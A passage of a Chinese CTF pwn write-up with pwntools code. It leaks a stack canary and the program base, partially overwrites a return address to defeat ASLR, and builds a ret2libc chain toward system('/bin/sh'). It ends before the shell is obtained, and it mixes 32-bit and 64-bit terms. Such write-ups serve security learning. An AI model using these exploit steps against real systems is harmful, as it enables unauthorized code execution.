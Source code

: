 分析 `vul` 函数可知，`read` 处可以栈溢出，且长度也是我们可控的。第二次 `read` 时限制了长度最大为 `0x270`，而我们输入的 `thinking_note` 距离 `ebp` 是 `0x260` 也就是 `608` 字节。

本题开启了 canary 保护，因此首先需要泄露 canary，canary 位于 `ebp-0x8` 位置。泄露完后要返回到 `main`，但是开启了 ASLR 导致我们无法确定 `main` 的位置。然而，ASLR 不会随机化低 12 位。我们观察 IDA 发现 `vul` 函数返回到 `0xd2e` 而 `main` 位于 `0xd20`，因此只需要覆盖 `2e` 为 `20` 即可，不受 ASLR 影响。

```python
def ret2main():
    payload = flat('a'*600,canary,'a'*8,'\x20')
    p.sendafter('624)\n', payload)

def send(payload):
    p.sendlineafter('path:\n','flag')
    p.sendlineafter('len:\n','999')
    p.sendlineafter('note:\n',payload)
    p.recvuntil('aaaa\n')

# leak canary
send('a'*600)
canary = u64('\x00' + p.recv(7))
log.success('canary:' + hex(canary))
ret2main()
```

注意这里覆盖的是 canary 的低位字节，恢复时需要注意默认的小端法表示。

接下来，我们要泄露程序基址以绕过 ASLR。这里可以泄露 `vul` 函数返回地址，减去其偏移量 `0xd2e` 来得到。

```python
# leak elf base
send('a'*615)
base = u64(p.recv(6).ljust(8,'\x00')) - 0xd2e
log.success('base:' + hex(base))
ret2main()
```

发送 `'a'*615` 加上最后的回车实际上是 616 字节，恰好覆盖了 canary 和 saved ebp，接下来打印的就是返回地址。这一步做完后用同样的办法返回 `main`。

第三次，我们已经绕过 canary 和 ASLR，需要泄露 `libc` 地址，由于这里有 `puts` 函数，直接按照常规的 `ret2libc` 方法即可。这里采用了泄露 `read` 函数 GOT 地址的方法。

```python
def ret2libc(leak, func):
    libc = LibcSearcher(func, leak)

    base = leak - libc.dump(func)
    system = base + libc.dump('system')
    binsh = base + libc.dump('str_bin_sh')
    return (system, binsh)

# leak libc
pop_rdi = 0xe03
main = 0xd20
payload = flat(['a'*600,canary,'a'*8,base+pop_rdi,base+elf.got['read'],base+elf.plt['puts'],base+main])
send(payload)

payload = flat('a'*600,canary,'a'*8,base+pop_rdi)
p.recvuntil('624)\n')
p.send(payload)
read = u64(p.recv(6).ljust(8,'\x00'))
log.success('read:' + hex(read))
system, binsh = ret2libc(read,'read')
```
